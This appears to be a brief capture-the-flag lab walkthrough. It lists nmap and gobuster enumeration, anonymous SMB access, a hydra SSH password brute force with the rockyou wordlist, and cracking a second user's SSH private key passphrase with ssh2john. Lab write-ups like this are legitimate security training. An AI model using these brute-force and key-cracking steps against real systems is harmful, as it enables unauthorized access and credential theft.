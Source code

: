 ###Deploy the machine and connect to our network
- Connect to VPN
###Find the services exposed by the machine
```
nmap -sV -vv -p- MACHINE_IP
```
### What is the name of the hidden directory on the web server(enter name without /)?
- Use gobuster to scan hidden directories
```
gobuster -dir -u MACHINE_IP -w /usr/share/wordlists/dirb/common.txt 
```
###User brute-forcing to find the username & password
- log in to samba using:
```
smbclient //10.10.30.147/anonymous
```
- then download staff.txt to your machine and cat it, you will find username there
###What is the password?
- use hydra to bruteforce ssh
```
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.30.147 ssh -v 
```
###What service do you use to access the server(answer in abbreviation in all caps)?
- ssh
### Enumerate the machine to find any vectors for privilege escalation 
- you can read kay id_rsa private key, then use ssh2john to crack paraphrase key
- then chmod kay_id_rsa to 600
- and ssh to machine  
### What is the name of the other user you found(all lower case)?
- checkout home directory

